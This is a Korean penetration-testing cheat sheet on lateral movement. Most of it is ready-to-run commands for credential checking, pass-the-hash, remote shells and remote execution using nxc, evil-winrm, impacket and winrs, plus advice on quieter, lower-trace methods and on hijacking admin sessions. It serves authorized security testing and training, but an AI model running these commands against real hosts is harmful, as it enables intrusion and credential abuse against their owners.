

> 측면이동은 "확보한 자격증명이 어디에 먹히는지" 확인하고 **필요한 최소 경로**로 다음 호스트에 올라서는 일입니다. 대화형 접속이면 충분한지, 원격 실행이 필요한지 먼저 정합니다. 식별자는 전부 플레이스홀더입니다.

## 개념



- **접근 확인**이 먼저(nxc로 프로토콜별 점검).
- **최소 경로**: 셸만 필요하면 WinRM/SSH, 쓰기 공유로 서비스 실행이 필요하면 psexec/wmiexec.
- 새 호스트에 올라서면 **호스트 열거를 처음부터** 반복합니다.

## 공격·우회 구문

허가된 범위에서만.

### 접근 확인 (프로토콜별)

```bash
nxc smb   $TARGET -u $USER -p 'Password123'
nxc winrm $TARGET -u $USER -p 'Password123'
nxc rdp   $TARGET -u $USER -p 'Password123'
# 해시로도
nxc smb   $TARGET -u $USER -H $NTHASH
```

### 윈도우 대상 접속·실행

| 상황 | 명령 |
|---|---|
| WinRM 셸 | `evil-winrm -i $TARGET -u $USER -p 'Password123'` |
| WinRM(해시) | `evil-winrm -i $TARGET -u $USER -H $NTHASH` |
| RDP | `xfreerdp /u:$USER /p:'Password123' /v:$TARGET /cert:ignore` |
| SMB 쓰기공유 실행 | `impacket-psexec corp.local/$USER:'Password123'@$TARGET` |
| WMI 실행(조용함) | `impacket-wmiexec corp.local/$USER:'Password123'@$TARGET` |
| Pass-the-Hash 실행 | `impacket-wmiexec -hashes :$NTHASH $USER@$TARGET` |

> 판단 포인트: `psexec`는 서비스를 설치해 **흔적이 큽니다.** 조용함이 필요하면 `wmiexec`/WinRM을 먼저 고릅니다. 평가 범위의 로그·탐지 요구를 기억합니다.

### 리눅스 대상 접속

```bash
ssh $USER@$TARGET
# 개인키가 있으면
chmod 600 id_rsa ; ssh -i id_rsa $USER@$TARGET
```

### 원격에서 로컬 명령 (윈도우 내장)

```cmd
winrs -r:$TARGET -u:$USER -p:Password123 "whoami"
```

> 판단 포인트: 접속이 되면 바로 공격하지 말고, 그 호스트에서 **로그온 사용자·세션**을 먼저 봅니다 — 다른 관리자의 세션/토큰이 다음 경로가 되는 경우가 많습니다.

## 함께 보기

- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)
- [Active Directory 공격 도구 치트시트](/notes/active-directory-cheatsheet/)
- [셸·페이로드·파일전송 도구 치트시트](/notes/shells-payloads-transfer-cheatsheet/)

## 참고 자료

- [MITRE ATT&CK: Remote Services (T1021)](https://attack.mitre.org/techniques/T1021/)
- [MITRE ATT&CK: Use Alternate Authentication Material (T1550)](https://attack.mitre.org/techniques/T1550/)
- [Microsoft: Windows Remote Management](https://learn.microsoft.com/en-us/windows/win32/winrm/portal)
